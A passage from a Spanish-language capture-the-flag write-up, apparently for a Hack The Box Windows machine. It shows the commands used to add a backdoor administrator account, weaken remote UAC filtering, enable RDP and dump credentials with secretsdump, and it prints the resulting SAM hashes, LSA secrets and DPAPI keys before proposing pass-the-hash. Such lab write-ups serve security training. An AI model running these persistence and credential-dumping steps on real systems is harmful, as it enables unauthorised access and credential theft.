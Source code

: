No voy a usar mimikatz en este writeup ,creo un usuario admin y luego dumpeo las credenciales con [secretsdump](https://airman604.medium.com/dumping-active-directory-password-hashes-deb9468d1633) :pizza:
 
   ```bash
 net user mario mario123 /add
net localgroup administrators mario /add
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
 ``` 


  ```bash
#Activamos RDP
PS> Set-NetFirewallRule -Name RemoteDesktop-UserMode-In-TCP -Enabled true
PS> Set-ItemProperty -Path 'HKLM:\\System\\CurrentControlSet\\Control\\Terminal Server\\WinStations\\RDP-Tcp' -name "UserAuthentication" -Value 1
PS> Set-ItemProperty -Path 'HKLM:\\System\\CurrentControlSet\\Control\\Terminal Server'-name "fDenyTSConnections" -Value 0
 ```

```bash 
secretsdump.py mario:mario123@10.10.10.132 
```
```ru
[*] Service RemoteRegistry is in stopped state  
[*] Starting service RemoteRegistry  
[*] Target system bootKey: 0xf684313986dcdab719c2950661809893  
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)  
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d5312b245d641b3fae0d07493a022622:::  
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:52a344a6229f7bfa074d3052023f0b41:::  
alice:1000:aad3b435b51404eeaad3b435b51404ee:998a9de69e883618e987080249d20253:::  
zachary:1007:aad3b435b51404eeaad3b435b51404ee:eef285f4c800bcd1ae1e84c371eeb282:::  
leo:1009:aad3b435b51404eeaad3b435b51404ee:60b05a66232e2eb067b973c889b615dd:::  
niels:1010:aad3b435b51404eeaad3b435b51404ee:35a9de42e66dcdd5d512a796d03aef50:::  
tolu:1011:aad3b435b51404eeaad3b435b51404ee:03e2ec7aa7e82e479be07ecd34f1603b:::  
mario:1012:aad3b435b51404eeaad3b435b51404ee:54a62417bb6a4beb67c8b4a2dc7a6897:::  
[*] Dumping cached domain logon information (domain/username:hash)  
[*] Dumping LSA Secrets  
[*] DefaultPassword    
leo:fe22ca6029a87b98e527686a56c12aa9  
[*] DPAPI_SYSTEM    
dpapi_machinekey:0xac6ecf4487d6451ab055dde974cd04dd2ae8463c  
dpapi_userkey:0x2d28120da695e819700547fa7329d71dc8e9b546  
[*] NL$KM    
0000   E3 05 BC AB 6F AC 32 0E  38 53 9A 46 3E A8 2B 90   ....o.2.8S.F>.+.  
0010   3E 1E A1 C3 94 65 8D 5D  5A 2A 6D F5 FC C4 93 49   >....e.]Z*m....I  
0020   CE 68 24 DF 38 F0 A6 3D  E1 60 73 E2 B1 CE 1A CC   .h$.8..=.`s.....  
0030   43 DB 81 EE C8 34 DE 2E  98 4E 5C D3 35 3F 4A D4   C....4...N\.5?J.  
NL$KM:e305bcab6fac320e38539a463ea82b903e1ea1c394658d5d5a2a6df5fcc49349ce6824df38f0a63de16073e2b1ce1acc43db81eec834de2e984e5cd3353f4ad4  
[*] Cleaning up...    
[*] Stopping service RemoteRegistry
```
## User flag
* Aquí  vemos que hay un default password para el usuario leo, el cual es un falso positivo.. <br>
Ya que tenemos los hashes de todos los usuarios podemos hacer **Pass The Hash**
